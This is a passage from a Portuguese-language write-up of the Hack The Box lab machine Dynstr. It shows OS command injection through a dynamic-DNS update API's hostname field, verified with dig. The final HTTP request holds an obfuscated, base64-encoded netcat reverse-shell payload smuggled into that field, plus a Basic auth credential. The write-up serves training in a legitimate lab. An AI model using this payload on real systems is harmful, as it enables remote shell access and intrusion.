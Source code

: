 
Uma vez que este menciona que o `nsupdate` falhou com o payload enviado (neste caso `-1.no-ip.htb`), significa que esta API apenas inicializa a execução deste binário de forma não interativa. Após alguma pesquisa, encontrei nesta página [Using the dynamic DNS editor, nsupdate (rtfm-sarl.ch)](https://www.rtfm-sarl.ch/articles/using-nsupdate.html) alguns exemplos de uso que poderiam ser utilizados de modo a obter execução de código no backend, uma vez que este suporta standard input, que pode ser a forma utilizada na automação que atualiza as entradas de DNS nas zonas.

Para provar que isso está correto, fiz um teste simples, encapsulando os comandos que desejava utilizar dentro da estrutura `$()` e validei a entrada de DNS utilizando `dig`, o que retornou sucesso.

![HTB Dynstr - OS Code injection payload](https://i.imgur.com/r5qrIOo.png){: .align-center}

```bash
$ dig @10.10.10.244 mytestsubdomain.no-ip.htb

; <<>> DiG 9.16.15-Debian <<>> @10.10.10.244 mytestsubdomain.no-ip.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 20816
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: c46a9e70a58d51c501000000611a665bf50e119ef07ea985 (good)
;; QUESTION SECTION:
;mytestsubdomain.no-ip.htb.     IN      A

;; ANSWER SECTION:
mytestsubdomain.no-ip.htb. 30   IN      A       10.10.10.11

;; Query time: 68 msec
;; SERVER: 10.10.10.244#53(10.10.10.244)
;; WHEN: Mon Aug 16 10:21:33 -03 2021
;; MSG SIZE  rcvd: 98
```

Agora que confirmei que posso obter execução de código desta forma, modifiquei a requisição para iniciar um shell reverso a partir de um payload em base64, de modo a evitar erros de codificação.

```http
GET /nic/update?myip=10.10.10.11&hostname=%24%28%65%63%68%6f%20%63%6d%30%67%4c%33%52%74%63%43%39%6d%4f%32%31%72%5a%6d%6c%6d%62%79%41%76%64%47%31%77%4c%32%59%37%59%32%46%30%49%43%39%30%62%58%41%76%5a%6e%77%76%59%6d%6c%75%4c%33%4e%6f%49%43%31%70%49%44%49%2b%4a%6a%46%38%62%6d%4d%67%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%49%78%49%44%51%30%4e%44%4d%67%50%69%39%30%62%58%41%76%5a%67%3d%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%29.no-ip.htb HTTP/1.1
Host: 10.10.10.244
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Authorization: Basic ZHluYWRuczpzbmRhbnlk
```
